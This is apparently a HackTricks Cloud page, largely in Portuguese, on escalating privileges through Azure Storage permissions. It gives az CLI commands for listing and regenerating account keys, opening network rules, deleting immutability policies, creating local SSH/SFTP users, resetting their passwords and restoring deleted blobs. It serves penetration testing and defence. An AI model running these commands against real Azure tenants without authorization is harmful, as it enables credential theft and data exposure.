 # Az - Storage Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Storage Privesc

Para mais informações sobre armazenamento, consulte:

{% content-ref url="../az-services/az-storage.md" %}
[az-storage.md](../az-services/az-storage.md)
{% endcontent-ref %}

### Microsoft.Storage/storageAccounts/listkeys/action

Um principal com esta permissão poderá listar (e os valores secretos) das **chaves de acesso** das contas de armazenamento. Permitindo que o principal eleve seus privilégios sobre as contas de armazenamento.
```bash
az storage account keys list --account-name <acc-name>
```
### Microsoft.Storage/storageAccounts/regenerateKey/action

Um principal com esta permissão poderá renovar e obter o novo valor secreto das **chaves de acesso** das contas de armazenamento. Permitindo que o principal escale seus privilégios sobre as contas de armazenamento.

Além disso, na resposta, o usuário receberá o valor da chave renovada e também da não renovada:
```bash
az storage account keys renew --account-name <acc-name> --key key2
```
### Microsoft.Storage/storageAccounts/write

Um principal com esta permissão poderá criar ou atualizar uma conta de armazenamento existente, atualizando qualquer configuração, como regras de rede ou políticas.

{% code overflow="wrap" %}
```bash
# e.g. set default action to allow so network restrictions are avoided
az storage account update --name <acc-name> --default-action Allow

# e.g. allow an IP address
az storage account update --name <acc-name> --add networkRuleSet.ipRules value=<ip-address>
```
{% endcode %}

## Blobs Specific privesc

### Microsoft.Storage/storageAccounts/blobServices/containers/immutabilityPolicies/write | Microsoft.Storage/storageAccounts/blobServices/containers/immutabilityPolicies/delete

A primeira permissão permite **modificar políticas de imutabilidade** em contêineres e a segunda permite excluí-las.

{% hint style="info" %}
Observe que se uma política de imutabilidade estiver em estado de bloqueio, você não poderá fazer nenhuma das duas
{% endhint %}
```bash
az storage container immutability-policy delete \
--account-name <STORAGE_ACCOUNT_NAME> \
--container-name <CONTAINER_NAME> \
--resource-group <RESOURCE_GROUP>

az storage container immutability-policy update \
--account-name <STORAGE_ACCOUNT_NAME> \
--container-name <CONTAINER_NAME> \
--resource-group <RESOURCE_GROUP> \
--period <NEW_RETENTION_PERIOD_IN_DAYS>
```
## File shares specific privesc

### Microsoft.Storage/storageAccounts/fileServices/takeOwnership/action

Isso deve permitir que um usuário com essa permissão possa assumir a propriedade de arquivos dentro do sistema de arquivos compartilhado.

### Microsoft.Storage/storageAccounts/fileServices/fileshares/files/modifypermissions/action

Isso deve permitir que um usuário com essa permissão possa modificar as permissões dos arquivos dentro do sistema de arquivos compartilhado.

### Microsoft.Storage/storageAccounts/fileServices/fileshares/files/actassuperuser/action

Isso deve permitir que um usuário com essa permissão possa realizar ações dentro de um sistema de arquivos como superusuário.

### Microsoft.Storage/storageAccounts/localusers/write (Microsoft.Storage/storageAccounts/localusers/read)

Com essa permissão, um atacante pode criar e atualizar (se tiver a permissão ```Microsoft.Storage/storageAccounts/localusers/read```) um novo usuário local para uma conta de Armazenamento do Azure (configurada com namespace hierárquico), incluindo a especificação das permissões e do diretório inicial do usuário. Essa permissão é significativa porque permite que o atacante se conceda acesso a uma conta de armazenamento com permissões específicas, como leitura (r), gravação (w), exclusão (d) e listagem (l) e mais. Além disso, os métodos de autenticação que isso utiliza podem ser senhas geradas pelo Azure e pares de chaves SSH. Não há verificação se um usuário já existe, então você pode sobrescrever outros usuários que já estão lá. O atacante poderia escalar seus privilégios e obter acesso SSH à conta de armazenamento, potencialmente expondo ou comprometendo dados sensíveis.

{% code overflow="wrap" %}
```bash
az storage account local-user create \
--account-name <STORAGE_ACCOUNT_NAME> \
--resource-group <RESOURCE_GROUP_NAME> \
--name <LOCAL_USER_NAME> \
--permission-scope permissions=rwdl service=blob resource-name=<CONTAINER_NAME> \
--home-directory <HOME_DIRECTORY> \
--has-ssh-key false/true # Depends on the auth method to use
```
{% endcode %}

### Microsoft.Storage/storageAccounts/localusers/regeneratePassword/action

Com esta permissão, um atacante pode regenerar a senha de um usuário local em uma conta de Armazenamento do Azure. Isso concede ao atacante a capacidade de obter novas credenciais de autenticação (como uma senha SSH ou SFTP) para o usuário. Ao aproveitar essas credenciais, o atacante poderia obter acesso não autorizado à conta de armazenamento, realizar transferências de arquivos ou manipular dados dentro dos contêineres de armazenamento. Isso poderia resultar em vazamento de dados, corrupção ou modificação maliciosa do conteúdo da conta de armazenamento.

{% code overflow="wrap" %}
```bash
az storage account local-user regenerate-password \
--account-name <STORAGE_ACCOUNT_NAME> \
--resource-group <RESOURCE_GROUP_NAME> \
--name <LOCAL_USER_NAME>
```
{% endcode %}

Para acessar o Azure Blob Storage via SFTP usando um usuário local via SFTP, você pode (você também pode usar uma chave ssh para se conectar):

{% code overflow="wrap" %}
```bash
sftp <local-user-name>@<storage-account-name>.blob.core.windows.net
#regenerated-password
```
{% endcode %}

### Microsoft.Storage/storageAccounts/restoreBlobRanges/action, Microsoft.Storage/storageAccounts/blobServices/containers/read, Microsoft.Storage/storageAccounts/read && Microsoft.Storage/storageAccounts/listKeys/action

Com essas permissões, um atacante pode restaurar um contêiner excluído especificando seu ID de versão excluída ou restaurar blobs específicos dentro de um contêiner, se eles foram previamente excluídos de forma suave. Essa escalada de privilégio poderia permitir que um atacante recuperasse dados sensíveis que deveriam ser permanentemente excluídos, potencialmente levando a acesso não autorizado.

{% code overflow="wrap" %}
```bash
#Restore the soft deleted container
az storage container restore \
--account-name <STORAGE_ACCOUNT_NAME> \
--name <CONTAINER_NAME> \
--deleted-version <VERSION>

#Restore the soft deleted blob
az storage blob undelete \
--account-name <STORAGE_ACCOUNT_NAME> \
--container-name <CONTAINER_NAME> \
--name "fileName.txt"
```
{% endcode %}


## Outras permissões interessantes (TODO)

* Microsoft.Storage/storageAccounts/blobServices/containers/blobs/manageOwnership/action: Altera a propriedade do blob
* Microsoft.Storage/storageAccounts/blobServices/containers/blobs/modifyPermissions/action: Modifica as permissões do blob
* Microsoft.Storage/storageAccounts/blobServices/containers/blobs/runAsSuperUser/action: Retorna o resultado do comando do blob
* Microsoft.Storage/storageAccounts/blobServices/containers/blobs/immutableStorage/runAsSuperUser/action

## Referências

* [https://learn.microsoft.com/en-us/azure/role-based-access-control/permissions/storage#microsoftstorage](https://learn.microsoft.com/en-us/azure/role-based-access-control/permissions/storage#microsoftstorage)
* [https://learn.microsoft.com/en-us/azure/storage/blobs/secure-file-transfer-protocol-support](https://learn.microsoft.com/en-us/azure/storage/blobs/secure-file-transfer-protocol-support)


{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
